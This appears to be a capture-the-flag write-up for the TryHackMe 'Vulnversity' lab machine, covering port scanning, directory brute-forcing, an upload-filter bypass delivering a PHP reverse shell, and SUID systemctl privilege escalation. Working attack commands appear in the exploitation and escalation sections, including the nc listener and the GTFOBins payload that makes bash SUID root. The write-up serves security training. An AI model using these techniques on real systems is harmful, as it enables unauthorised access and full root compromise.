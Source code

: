 ## Machine Resolution: Vulnversity

[TryHackMe: Vulnversity Machine](https://tryhackme.com/room/vulnversity)

**Objective:** Perform enumeration, exploitation, and privilege escalation on the "Vulnversity" machine to identify vulnerabilities.

---

## Machine Description
The **Vulnversity** machine is an introductory-level machine on TryHackMe that allows practicing basic techniques of enumeration, port scanning, exploitation of common services, and privilege escalation.

## 1. General Information about the Machine
- **Machine Name**: Vulnversity
- **IP Address**: 10.10.120.94
- **Objective**: Gain access and privileges on the machine using ethical hacking techniques.

## 2. Enumeration
We scan with `nmap` to detect service versions. This gives us a better idea of what specific vulnerabilities might be present.
```bash
nmap -sC -sV -oN 10.10.120.94/initial_scan.txt 10.10.120.94
``` 

#### Used flags
- **-sC:** Runs default nmap script scans, getting more details about services (like versions and potential vulnerabilities).
- **-sV:** Detects versions of services on each open port, helping us determine if they are vulnerable or outdated versions.
- **-oN  nmap/initial_scan.txt** Saves the scan results to a file named initial_scan.txt for future reference.

#### Scan Results
```plaintext
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)

``` 

#### Gobuster
Perform brute force attack with `Gobuster` to determine if there are hidden directories.
When I run the scan like this it shows me an error, this happens because the web server is not on the standard port (port 80), but rather on port 3333
```bash
gobuster dir -u http://10.10.195.20 -w /usr/share/wordlists/dirb/big.txt
``` 

#### Command is executed again specifying port

```bash
gobuster dir -u http://10.10.195.20:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
``` 

#### Brute force result
In these results several directories are identified, I focus on one called `/internal/`, in this path I can upload files to the server.
![alt text](imgs/img1.png)

#### Dirbuster: Brute force to internal folder
With this tool perform a scan of the internal folder to identify more important directories
    ![alt text](imgs/img8.png)
In the results I identified three routes that could be where the uploaded files are saved.
```plaintext
/images/
/icons/
/uploads/
``` 

## 3. Exploitation of Vulnerabilities
In this part of the exploitation I am going to focus on the route that I found in the enumeration phase, what I am going to try is to upload a malicious file and thus be able to compromise the server.
For this purpose the first thing I must do is identify what type of files can be uploaded in the file upload form, this can be done in several ways:
- **Source code:** inspect the application to see if the form contains the accept attribute where it specifies what type of files are accepted.
![alt text](imgs/img2.png)
- **Test File Uploads:** Perform tests by uploading different types of files and observe the server's responses. This can help you identify which extensions are accepted or rejected.

- **Burbsuite** With this tool I can quickly and more safely identify what type of files are allowed
 1. **Run Burp:** Making sure to intercept the request when uploading a test file.
    ![alt text](imgs/img3.png)
 2. **Intruder:** When you are in the intruder, select the extension of the test file, since this is the one that will change during the attack.
    ![alt text](imgs/img4.png)
 3. **File with extensions:** I create a file with different extensions and in Burb in the payload tab I load this file and start the attack.
    ```plaintext
    .png
    .jpg
    .php
    .php3
    .php4
    .php5
    .phtml
    ``` 
    ![alt text](imgs/img5.png)
    
4. **Results:** In the results of the attack it can be observed that one of the extensions is a different length than the others, this indicates that this could be the accepted extension.
    ![alt text](imgs/img6.png)
5. **Reverse shell:** We are going to use a PHP reverse shell as our payload, [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Once I get this shell, I edit the IP of the attacking machine and then change the extension to phtml, which is the extension I described above that is allowed.
6. **Having the payload:** I go to a terminal on my attacking machine and run the following command to listen for a reverse connection
    ```bash
    nc -lvnp 1234
    ``` 
7. **Upload file:** The next step is to upload the payload to the server and go to where it was saved so that it runs and thus obtain my connection.
    ```bash
    10.10.207.213:3333/internal/uploads/v.phtml
    ``` 
8. **Reverse Shell:** When I upload and run the file I get my connection reversed
    ![alt text](imgs/img7.png)

## 4. Privilege Escalation
To escalate privileges one of the first steps I do is to identify which files contain a special permission called SUID, which grants temporary permissions to a user to execute the binary with the permission of the owner instead of the user who executes it. To find these files I run:
```bash
find / -perm -4000 -ls 2>/dev/null
```
In this case, among all the listed files there is one that stands out. `/bin/systemctl`
```plaintext
131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs
``` 

#### External resource 
On [this page](https://gtfobins.github.io/gtfobins/systemctl/#suid) you can find different scripts that when executed will allow me to escalate privileges.
In this case the executed code is this:
```plaintext
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``` 

Now when starting an instance of bash it will be executed as root user
```bash
bash -p
```
![alt text](imgs/img9.png)














